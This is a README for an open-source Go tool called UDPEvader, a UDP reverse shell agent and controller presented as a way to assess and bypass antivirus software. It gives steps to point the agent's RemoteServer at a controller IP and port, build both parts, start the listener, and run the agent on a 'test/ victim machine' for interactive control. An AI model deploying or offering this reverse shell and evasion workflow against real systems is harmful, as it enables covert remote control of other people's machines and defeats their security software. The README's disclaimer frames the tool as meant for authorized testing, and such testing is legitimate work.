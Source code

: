 # UDPEvader
UDPEvader is a platform independent custom UDP-based reverse shell agent and controller, designed to allow users to  assist in assessing and potentially bypassing antivirus software. Allows to dynamically set their custom port and listener prompts.

## Features

- UDP-based reverse shell agent and controller
- Customizable listener prompts
- Antivirus assessment
- Can be used as a potential bypass technique

## Usage

1. Clone the UDPEvader repository:  

   gh repo clone diljith369/UDPEvader

2. Compile and build the UDPEvader agent and controller:
   - cd UDPEvader/src
   Update &agentprops.UDPShellProps{
		RemoteServer: "RHOST",
		UDPPort:      "RPORT",
	} in udpagent.go file, replace RHOST and RPORT with controller server IP and Port, then build agent 
   - go build udpagent.go   
   - go build udplistener.go

3. Start the listener :
   - udplistener.exe --lport <<LPORT>> --prompt <<YourPrompt>> or 
   - udplistener.exe (In this case LPORT will be 8080 and prompt will be <<@dcrypT0R~UDP>>)

4. Run the agent on your test/ victim machine , once the agent is connected, you can interact with the target machine   through the controller's listener prompts.

5. Assess and test your antivirus or explore potential bypass techniques using the UDPEvader agent.

## Disclaimer
UDPEvader is intended for educational and assessment purposes only. Misuse of this tool may violate applicable laws and regulations. Use it responsibly and at your own risk.

## Suggestions
If you find any issues or have suggestions for improvements, feel free to open an issue.
## Built With
Go Lang
## Author
Initial work - (https://github.com/diljith369)